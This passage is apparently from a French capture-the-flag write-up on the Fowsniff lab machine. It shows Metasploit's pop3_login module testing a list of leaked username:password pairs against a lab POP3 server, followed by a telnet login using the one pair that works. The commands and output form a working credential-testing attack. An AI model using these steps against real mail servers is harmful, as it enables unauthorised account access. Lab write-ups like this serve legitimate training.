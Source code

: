 Bingo ! On retrouve le même résultat avec le module ```pop3_login``` de Metasploit.

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > use auxiliary/scanner/pop3/pop3_login

msf auxiliary(scanner/pop3/pop3_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101

msf auxiliary(scanner/pop3/pop3_login) > set USERPASS_FILE fowsniff.credentials
USERPASS_FILE => fowsniff.credentials

msf auxiliary(scanner/pop3/pop3_login) > set THREADS 4
THREADS => 4

msf auxiliary(scanner/pop3/pop3_login) > run

[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mauer:mailcall', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mustikka:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'tegel:apples01', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'baksteen:skyler22', '-ERR [AUTH] Authentication failed.'
[+] 192.168.56.101:110    - 192.168.56.101:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mursten:carp4ever', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'parede:orlando12', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'sciana:07011972', '-ERR [AUTH] Authentication failed.'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Nous pouvons nous connecter au serveur de messagerie avec les credentials ```seina:scoobydoo2``` !

## Résultat du match : Pneumonie 2 - Sécurité 0

```console
root@blinils:~# telnet 192.168.56.101 110
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK

PASS scoobydoo2
+OK Logged in.
```

